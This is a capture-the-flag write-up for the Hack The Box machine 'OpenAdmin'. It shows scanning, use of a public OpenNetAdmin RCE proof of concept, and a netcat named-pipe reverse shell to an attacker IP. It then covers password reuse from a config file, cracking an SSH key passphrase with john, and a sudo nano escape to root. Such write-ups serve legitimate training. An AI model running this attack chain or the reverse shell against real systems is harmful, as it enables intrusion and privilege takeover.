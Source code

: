 ```yaml
---
title: OpenAdmin - easy HTB
date: 2023-10-10 10:11:53 +/-0800
categories: [writeup, hackthebox]
writeup: :title
permalink: /openadmin
tags: [htb, writeup, easy, Linux, CVE, Privileges Escalation]     # TAG names should always be lowercase
---
```


- OS: **Linux**
- Difficulty: **Easy**
- Author: **4nh4ck1ne**

### Scanning 

the challenges start with a scan of the most common ports: `nmap -A 10.10.10.171 -T4`

```       
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4b:98:df:85:d1:7e:f0:3d:da:48:cd:bc:92:00:b7:54 (RSA)
|   256 dc:eb:3d:c9:44:d1:18:b1:22:b4:cf:de:bd:6c:7a:54 (ECDSA)
|_  256 dc:ad:ca:3c:11:31:5b:6f:e6:a4:89:34:7c:9b:e5:50 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)
```

We can see it is an Ubuntu machine !

### Enumeration 

before walk on the app you can lauch a gobuster brute force scan: `gobuster dir -u http://10.10.10.171 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`

```
/music                (Status: 301) [Size: 312] [--> http://10.10.10.171/music/]
/artwork              (Status: 301) [Size: 314] [--> http://10.10.10.171/artwork/]
/sierra               (Status: 301) [Size: 313] [--> http://10.10.10.171/sierra/]

```

If you go on `/music` you can see an bouton name login. 

![/music](/assets/OpenAdmin/music.png)

Yon are redirect to an web page `/ona`, it is an app named OpenNetAdmin lets if an exploit existe on this current version (v18.1.1).

![ona](/assets/OpenAdmin/Ona.png)

Seems that yes because on exploitdb can find a code to exploit the vulnerability more it is an rce, this vulnerability will give us directly access to the server. If we look for a POC in python that works well. [POC](https://github.com/amriunix/ona-rce/tree/master)

```
#install reqirements
pip3 install --user requests

#Get the POC
git clone https://github.com/amriunix/ona-rce.git

#lauche the exploit
python3 ona-rce.py exploit http://10.10.10.171/ona/
[*] OpenNetAdmin 18.1.1 - Remote Code Execution
[+] Connecting !
[+] Connected Successfully!
sh$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

We are on the machine! I will migrate my shell to a tty shell thanks to a pwncat:

```
#lauch pwncat
pwncat :9001

#run the reverse connection
sh$ rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.16.3 9001 >/tmp/f
```

### Privileges Escalation

the first mouvement is www-data => jimmy so we now have a stable shell. To begin the elevation of privileges we will look at the files of the website at the password quetes.

in the site folders we can find in this directory /local/config a file named "database_settings.inc.php" containing a mysql database password.

```php
<?php

$ona_contexts=array (
  'DEFAULT' => 
  array (
    'databases' => 
    array (
      0 => 
      array (
        'db_type' => 'mysqli',
        'db_host' => 'localhost',
        'db_login' => 'ona_sys',
        'db_passwd' => 'n1nj4W4rri0R!',
        'db_database' => 'ona_default',
        'db_debug' => false,
      ),
    ),
    'description' => 'Default data context',
    'context_color' => '#D3DBFF',
  ),
);

?>
```

I have tried to access the local database that which feasible but no information interested is there. I then try to reuse password on local users (joanna, jimmy) and that market for jimmy we are now jimmy : `su jimmy
#enter password n1nj4W4rri0R!`


Ok we are now jimmy user next is to become joanna.

If we are still looking in the web file you will necessarily see from the rating of/var/www. you will still find counting in /html we will say that this sounds the web file that we had everything with gobuster. If we look at the side of "internal" a whole new world offered to us. If we look at the confiuguration side of the apache2 server we can see that there is an active virtualhost on port 52846.

```
jimmy@openadmin:/etc/apache2/sites-available$ cat internal.conf 
Listen 127.0.0.1:52846

<VirtualHost 127.0.0.1:52846>
    ServerName internal.openadmin.htb
    DocumentRoot /var/www/internal

<IfModule mpm_itk_module>
AssignUserID joanna joanna
</IfModule>

    ErrorLog ${APACHE_LOG_DIR}/error.log
    CustomLog ${APACHE_LOG_DIR}/access.log combined

</VirtualHost>
```

Let’s look at the php file more pret including main.php: `cat main.php
`

```php
<?php session_start(); if (!isset ($_SESSION['username'])) { header("Location: /index.php"); }; 
# Open Admin Trusted
# OpenAdmin
$output = shell_exec('cat /home/joanna/.ssh/id_rsa');
echo "<pre>$output</pre>";
?>
<html>
<h3>Don't forget your "ninja" password</h3>
Click here to logout <a href="logout.php" tite = "Logout">Session
</html>
```

it seems that this application displays the private key of the user joanna tries to curl the url and see the result: `curl http://localhost:52846/main.php`

BIIM we have joanna’s private key, try to connect with: 
```
chmod 600 id_rsa

ssh -i id_rsa joanna@10.10.10.171                           
Enter passphrase for key 'id_rsa': 
```

Thin the key is protected by a passphrase let’s try cracking with john.

```
ssh2john id_rsa > passphrase.txt

john passphrase.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

We have cracked the key we can now log in and enter the secret of the key.

ok we are now on user Joanna to start enumeration I directly look at the sudo rights.

```
sudo -l

User joanna may run the following commands on openadmin:
    (ALL) NOPASSWD: /bin/nano /opt/priv
```

So the user joanna can therefore launch the command/bin/nano/opt/priv without password with must root, well let’s look at [GTfobins](https://gtfobins.github.io/#+sudo)  if there is a way to abuse nano.

![gtfobins](/assets/OpenAdmin/Gtfobins.png)

the abuse of nano binary is done as follows:

```
sudo /bin/nano /opt/priv

#Press control and R touch
^R
#Press ctrl+x touche
^X
#run the command
reset; sh 1>&0 2>&0
```

you Get the root Great job !! 

![root](https://github.com/TheF0rceAwak5ns/TheF0rceAwak5ns.github.io/blob/main/assets/OpenAdmin/root.png)
